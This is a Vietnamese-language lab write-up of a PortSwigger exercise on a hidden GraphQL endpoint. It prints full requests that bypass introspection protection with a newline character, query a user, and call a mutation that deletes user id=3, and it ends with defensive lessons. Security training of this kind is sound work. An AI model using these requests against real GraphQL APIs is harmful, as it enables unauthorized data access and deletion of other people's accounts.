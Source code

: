 # Write-up: Finding a hidden GraphQL endpoint

### Tổng quan
Khai thác lỗ hổng trong ứng dụng web sử dụng API GraphQL, nơi endpoint `/api` cho phép truy vấn mà không công khai, và cơ chế bảo vệ introspection có thể bị bypass bằng cách thêm ký tự newline `%0a`. Bằng cách phân tích schema với InQL, kẻ tấn công tìm thấy các endpoint `getUser` và `deleteOrganizationUser`, sử dụng chúng để lấy thông tin người dùng và xóa người dùng với `id=3`, hoàn thành lab.

### Mục tiêu
- Khai thác endpoint GraphQL ẩn `/api`, bypass bảo vệ introspection để lấy schema, tìm và sử dụng mutation `deleteOrganizationUser` để xóa người dùng với `id=3`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- InQL (Burp Suite Extension)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Truy cập endpoint `/api`:  
    - Kết quả: Trả về lỗi `"Query not present"`, xác nhận `/api` là endpoint GraphQL nhưng cần cung cấp query:  
  ![Lỗi Query not present](./images/1_not_present.png)  

- Thử truy vấn đơn giản để xác nhận GraphQL:  
  ```
  GET /api?query=query{__typename} HTTP/2
  ```  
- Kết quả: Trả về dữ liệu, xác nhận `/api` là endpoint GraphQL hợp lệ:  
  ```
  {
    "data": {
      "__typename": "Query"
    }
  }
  ```  
  ![Kết quả __typename](./images/2_query.png)  

- Kiểm tra introspection để lấy schema:  
  ```
  GET /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A HTTP/2
  ```  
- Kết quả: Trả về lỗi `"GraphQL introspection is not allowed"`, xác nhận có bảo vệ chống introspection:  
  ![Lỗi introspection](./images/3_schema.png)  

2. **Bypass bảo vệ introspection**  
- Thêm ký tự newline `%0a` sau `__schema` để bypass bảo vệ:  
  ```
  GET /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A HTTP/2
  Host: 0af6013n14op5678j0kl123400mn00kj.web-security-academy.net
  ```  
- Kết quả: Trả về schema GraphQL, bao gồm các query và mutation:  
  ![Bypass introspection thành công](./images/4_data.png)  

3. **Phân tích schema với InQL**  
- Lưu response introspection thành file JSON.  
- Load file JSON vào InQL Scanner (Burp Suite Extension) để phân tích schema.  
- Kết quả: Tìm thấy các endpoint:  
  - `getUser(id: ID!)`: Truy vấn thông tin người dùng theo `id`.  
  - `deleteOrganizationUser(input: DeleteOrganizationUserInput!)`: Mutation xóa người dùng theo `id`.  
  ![Schema trong InQL](./images/5_delete.png)
  ![uer](./images/6_getUser.png)  

4. **Khai thác (Exploitation)**  
- Gọi query `getUser` với `id=3` (thay vì `id=1334` mặc định):  
  ```
  GET /api?query=query%20%7B%0A%09getUser(id%3A3)%20%7B%0A%09%09id%0A%09%09username%0A%09%7D%0A%7D HTTP/2
  Host: 0af6013n14op5678j0kl123400mn00kj.web-security-academy.net
  ```  
- Kết quả: Trả về thông tin người dùng với `id=3` (ví dụ: `username: carlos`):  
  ```
  {
    "data": {
      "getUser": {
        "id": "3",
        "username": "carlos"
      }
    }
  }
  ```  
  ![Kết quả getUser](./images/7_carlo.png)  

- Gọi mutation `deleteOrganizationUser` để xóa người dùng với `id=3`:  
  ```
  GET /api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D HTTP/2
  ```  
  ![delete](./images/8_delete.png)
- Kết quả: Người dùng với `id=3` bị xóa, lab xác nhận hoàn thành:  
  ![Lab hoàn thành](./images/9_solved.png)  

- **Ý tưởng payload**:  
  - Bypass bảo vệ introspection bằng ký tự `%0a`, lấy schema để tìm mutation `deleteOrganizationUser`, và xóa người dùng với `id=3`.  

### Bài học rút ra
- Hiểu cách khai thác endpoint GraphQL ẩn, bypass bảo vệ introspection bằng kỹ thuật thêm ký tự newline, và sử dụng InQL để phân tích schema nhằm tìm mutation nhạy cảm.  
- Nhận thức tầm quan trọng của việc vô hiệu hóa hoặc giới hạn introspection trong môi trường production, kiểm tra nghiêm ngặt đầu vào query, và áp dụng xác thực cho các mutation nhạy cảm để ngăn chặn truy cập trái phép.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác endpoint GraphQL ẩn và bypass bảo vệ introspection, nhấn mạnh tầm quan trọng của việc vô hiệu hóa introspection và bảo vệ mutation nhạy cảm để ngăn chặn xóa người dùng trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*